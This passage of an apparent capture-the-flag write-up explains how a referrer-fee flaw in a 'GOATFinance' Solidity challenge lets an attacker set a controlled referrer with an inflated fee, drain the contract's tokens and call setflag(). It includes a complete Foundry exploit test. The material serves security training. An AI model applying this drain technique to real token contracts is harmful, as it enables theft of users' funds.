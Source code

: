In `transfer()`, if the recipient is admin, the `_fee` will be transferRate/100 of the amount, and the contract will transfer `_fee * ReferrerFees / transferRate` to our referrer

We can set another account we control as the referrer and set a really high `ReferrerFees`, so the referrer get a large amount of token from the contract

Then we can just use the referrer account that we control to call `setFlag()`

Also before calling `transfer()`, we have to call `Airdrop()` to get 1000 tokens first and deposit 1 token to set our referrer

### Foundry test :
```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.12;

import "forge-std/Test.sol";
import "../src/GOATFinance.sol";

contract goatFinanceTest is Test {
    PrivilegeFinance public goatFi;
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");
    address hacker2 = makeAddr("hacker2");

    function setUp() public {
        vm.prank(owner);
        goatFi = new PrivilegeFinance();
    }

    function testAttack() public {
        vm.startPrank(hacker);
        
        // get 1000 token to hacker from airdrop
        goatFi.Airdrop();
        
        console.log("Hacker balance :", goatFi.balances(hacker));
        console.log("Hacker2 balance :", goatFi.balances(hacker2));
        console.log("GOATFinance balance :", goatFi.balances(address(goatFi)));
        
        // set hacker's referrer to hacker2
        goatFi.deposit(address(0), 1, hacker2);
        goatFi.DynamicRew(0x71fA690CcCDC285E3Cb6d5291EA935cfdfE4E053, 1677729609, 1000000000, 50);
        // transfer to admin, so referrer get fee from goatFi contract
        goatFi.transfer(0x2922F8CE662ffbD46e8AE872C1F285cd4a23765b, 999);
        
        console.log("Hacker balance after :", goatFi.balances(hacker));
        console.log("Hacker2 balance after :", goatFi.balances(hacker2));
        console.log("GOATFinance balance after :", goatFi.balances(address(goatFi)));
        
        vm.stopPrank();
        vm.startPrank(hacker2);
        
        goatFi.setflag();
        
        assertTrue(goatFi.isSolved());
    }
}
```
